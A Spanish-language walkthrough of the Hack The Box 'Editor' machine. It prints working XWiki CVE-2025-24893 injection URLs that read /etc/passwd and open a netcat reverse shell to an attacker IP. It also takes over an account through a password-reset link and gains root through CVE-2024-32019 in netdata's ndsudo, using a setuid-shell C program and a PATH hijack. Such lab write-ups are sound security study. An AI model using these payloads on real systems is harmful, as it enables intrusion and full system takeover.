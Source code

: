 ```yaml
---
date: '2025-08-06T15:26:48Z'
draft: true
title: 'HTB: Editor'
---
```


# Algunas notas sobre la máquina [Editor](https://app.hackthebox.com/machines/684) de [Hack The Box](https://www.hackthebox.com/)

## Acceso

La intrusión la realicé aprovechando la vulnerabilidad [CVE-2025-24893](https://nvd.nist.gov/vuln/detail/CVE-2025-24893) en la página web. Después de analizar este [PoC](https://www.exploit-db.com/exploits/52136), comencé a probar con distintos payloads:

```bash
# CVE-2025-24893
http://editor.htb:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=}}}{{async async=false}}{{groovy}}println("cat /etc/passwd".execute().text){{/groovy}}{{/async}}

http://editor.htb:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=}}}{{async async=false}}{{groovy}}println("whoami".execute().text){{/groovy}}{{/async}}

http://editor.htb:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=}}}{{async async=false}}{{groovy}}println("busybox nc 10.10.15.14 443 -e bash".execute().text){{/groovy}}{{/async}}
```

Esto me dio acceso al equipo como el usuario `xwiki`.

---

## Reseteo de contraseña para el usuario `neal`

Buscando credenciales, encontré en **/var/lib/xwiki/data/mails/** que, si desde la web se hacía una petición para cambiar la clave de un usuario válido, el sistema enviaba un correo con un link para restablecer la contraseña.

Así fue como pude cambiar la clave del usuario `neal` y acceder a la wiki. Dentro del servicio no encontré nada útil, pero me pareció interesante ver cómo funciona por detrás esta parte del sistema.

### Link de ejemplo que envia el sistema

```
http://editor.htb:8080/xwiki/authenticate/wiki/xwiki/resetpassword?u=xwiki:XWiki.neal&v=BpqfjCA4Ig0NvmvmoduOVq05oUkX7z
```

---

## Root

Una vez dentro del equipo como el usuario `oliver`, listé los binarios con permisos SUID y me llamó la atención esta línea:

```bash
find / -perm -4400 -type f 2>/dev/null 
# --> /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo
```

Buscando información, encontré el [CVE-2024-32019](https://nvd.nist.gov/vuln/detail/CVE-2024-32019) y estas páginas que explican cómo explotarlo:

- [netdata](https://github.com/netdata/netdata/security/advisories/GHSA-pmhq-4cxq-wj93)
- [sploitus](https://sploitus.com/exploit?id=5077683C-F7E6-58BE-9375-B5A13A8782C5)

Entonces cree el archivo poc.c con el siguiente contenido

```c
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>

int main()
{
        setuid(geteuid());
        system("/bin/bash");
        return 0;
}
```

lo compile

```bash
gcc poc.c -o nvme
```

y finalmente, ejecuté el siguiente comando para convertirme en `root`:

```bash
# CVE-2024-32019
PATH=$(pwd):$PATH /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

saludos!!

